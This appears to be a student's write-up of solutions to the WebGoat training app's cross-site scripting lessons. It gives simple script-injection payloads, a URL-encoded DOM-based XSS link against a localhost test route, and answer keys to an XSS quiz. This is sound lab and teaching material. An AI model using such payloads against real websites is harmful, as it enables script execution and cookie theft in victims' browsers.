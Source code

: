 # Task 2

1. Go to devtools in browser
2. Eval script alert(document.cookie);
3. Answer "yes" in text-field and submit
4. Done

# Task 7

1. In upper textfield pass

```
<script>alert()</script>
```

2. Click ok
3. done

# Task 10

1. Find the test route
2. Go to developing tools
3. Exploit js files
4. Find file GoatRouter.js
5. Find testRoute in given file
6. U can see lines below

```
  routes: {
            'welcome': 'welcomeRoute',
            'lesson/:name': 'lessonRoute',
            'lesson/:name/:pageNum': 'lessonPageRoute',
            'test/:param': 'testRoute',
            'reportCard': 'reportCard'
        },
```

7.

Answer

```
start.mvc#test/
```

# task 11

1. We are about to run script

```
<script>webgoat.customjs.phoneHome(); </script>
```

2. Encode this script as url

```
%3c%73%63%72%69%70%74%3e%77%65%62%67%6f%61%74%2e%63%75%73%74%6f%6d%6a%73%2e%70%68%6f%6e%65%48%6f%6d%65%28%29%3b%20%3c%2f%73%63%72%69%70%74%3e
```

3. Page is valnerable in sense of xss. test endpoint can preview everything
4. Concatenate test endpoint with encoded script

```
http://localhost:8080/WebGoat/start.mvc#test/%3c%73%63%72%69%70%74%3e%77%65%62%67%6f%61%74%2e%63%75%73%74%6f%6d%6a%73%2e%70%68%6f%6e%65%48%6f%6d%65%28%29%3b%20%3c%2f%73%63%72%69%70%74%3e
```

5. CHeck console to get number

# task 12

1. Are trusted websites immune to XSS attacks?
   Solution 4: No because the browser trusts the website if it is acknowledged trusted, then the browser does not know that the script is malicious.
2. When do XSS attacks occur?
   Solution 3: The data is included in dynamic content that is sent to a web user without being validated for malicious content.
3. What are Stored XSS attacks?
   Solution 1: The script is permanently stored on the server and the victim gets the malicious script when requesting information from the server.
4. What are Reflected XSS attacks?
   Solution 2: They reflect the injected script off the web server. That occurs when input sent to the web server is part of the request.
5. Is JavaScript the only way to perform XSS attacks?
   Solution 4: No there are many other ways. Like HTML, Flash or any other type of code that the browser executes.
